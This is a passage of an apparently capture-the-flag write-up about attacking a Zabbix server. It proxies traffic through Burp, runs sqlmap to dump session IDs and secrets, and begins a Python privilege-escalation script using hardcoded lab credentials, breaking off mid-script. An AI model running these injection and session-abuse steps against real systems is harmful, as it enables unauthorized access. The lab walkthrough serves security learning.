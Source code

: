 We can add this into the code:

```
proxies={
    "http":"127.0.0.1:8080",
    "https":"127.0.0.1:8080"})
```

Now, our requests will go through our burp suite, let's check it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221182530.png)

We can modify the request like this and submit it to sqlmap:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250221182644.png)

```bash
sqlmap -r req
```

After the process is done, we get this:

```ad-important
| userid | sessionid                        | secret                           | status | lastaccess |
|--------|----------------------------------|----------------------------------|--------|------------|
| 1      | 836881b5a680d319ba5337d127c7f393 | a7885b2b6bdf9f0ae421c7b22f44db95 | 0      | 1733449909 |
| 3      | 643f5420d1bfecca5a1a3fb4ec4f03d4 | bd8e3e2234fee0c576ec88f8b3e988fd | 0      | 1733450199 |
```

If we change the session 


# PRIVILEGE ESCALATION
---


```
import requests
import json
from datetime import datetime
import string
import random
import sys
from concurrent.futures import ThreadPoolExecutor

URL = "http://10.129.231.176/zabbix/api_jsonrpc.php"
TRUE_TIME = 1
ROW = 0
USERNAME = "matthew"
PASSWORD = "96qzn0h2e1k3"

def authenticate():
    payload = {
        "jsonrpc": "2.0",
        "method": "user.login",
        "params": {
            "username": f"{USERNAME}",
            "password": f"{PASSWORD}"
        },
        "id": 1
    }
    response = requests.post(URL, json=payload)
    if response.status_code == 200:
        try:
```